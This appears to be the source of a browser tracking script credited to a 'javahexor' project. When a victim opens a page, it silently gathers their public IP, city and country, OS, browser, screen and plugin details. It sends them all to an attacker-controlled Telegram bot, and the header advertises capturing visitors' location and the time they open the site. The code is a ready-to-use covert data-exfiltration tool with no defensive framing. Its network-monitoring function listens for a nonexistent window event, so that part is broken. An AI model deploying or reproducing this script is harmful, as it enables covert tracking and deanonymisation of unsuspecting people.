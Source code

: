 // For More Info Visit -> https://github.com/Whitecat18/javahexor
// New : Get OS Information, Coordinates of the device The Time does he opens the site. Location, Public Ipv4 , City , Device Basic Info..etc

// Don't change the Line 5 and 6. Because Automation Script Plays a Role Here.
const botToken = 'YOUR_TELEGRAM_BOT_API_KEY';
const chatId = 'YOUR_CHAT_ID';

const getIP = async () => {
  try {
    const response = await fetch('https://api.ipify.org?format=json');
    const data = await response.json();
    return data.ip;
  } catch (error) {
    console.log(error);
  }
};

const getLocation = async () => {
  try {
    const response = await fetch('https://ipapi.co/json/');
    const data = await response.json();
    return {
      city: data.city,
      region: data.region,
      country: data.country,
    };
  } catch (error) {
    console.log(error);
  }
};

const getDeviceInfo = () => {
  const language = navigator.language;
  const userAgent = navigator.userAgent;
  const platform = navigator.platform;
  const screenWidth = screen.width;
  const screenHeight = screen.height;
  const colorDepth = screen.colorDepth;
  const cookiesEnabled = navigator.cookieEnabled;
  const doNotTrack = navigator.doNotTrack;
  const plugins = Array.from(navigator.plugins, plugin => ({ name: plugin.name, version: plugin.version }));
  const mimeTypes = Array.from(navigator.mimeTypes, mimeType => mimeType.type);
  return {
    Language: language,
    'User Agent': userAgent,
    Platform: platform,
    'Screen Width': screenWidth,
    'Screen Height': screenHeight,
    'Color Depth': colorDepth,
    'Cookies Enabled': cookiesEnabled,
    'Do Not Track': doNotTrack,
    Plugins: plugins,
    'Mime Types': mimeTypes,
  };
};

const monitorNetworkActivity = () => {
  const networkActivity = {};

  // Monitoring network requests
  window.addEventListener('fetch', event => {
    const url = event.request.url;
    if (!networkActivity[url]) {
      networkActivity[url] = 0;
    }
    networkActivity[url]++;

    console.log(`Request made to: ${url}. Count: ${networkActivity[url]}`);
    // You can add further analysis or alerts based on the network activity here
  });
};

Promise.all([getIP(), getLocation()])
    .then(([publicIP, location]) => {
      const os = `Operating System: ${navigator.platform} ${navigator.oscpu}`;
      const browser = `Browser: ${navigator.userAgent}`;
      const extraInfo = getDeviceInfo();

      const locationInfo = `Location: ${location.city}, ${location.region}, ${location.country}`;
      const publicIPInfo = `Public IP: ${publicIP}`;

      const deviceInfo = Object.entries(extraInfo)
          .map(([key, value]) => `${key}: ${JSON.stringify(value)}`)
          .join('\n');

      // Start monitoring network activity
      monitorNetworkActivity();

      // Prepare and send the entire structured data as a single message
      const message = `
${os}
${browser}
${publicIPInfo}
${locationInfo}
Extra Info:
${deviceInfo}
`;

      const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
      fetch(url);
    })
    .catch(error => console.log(error));
// Coded By 5mU7X
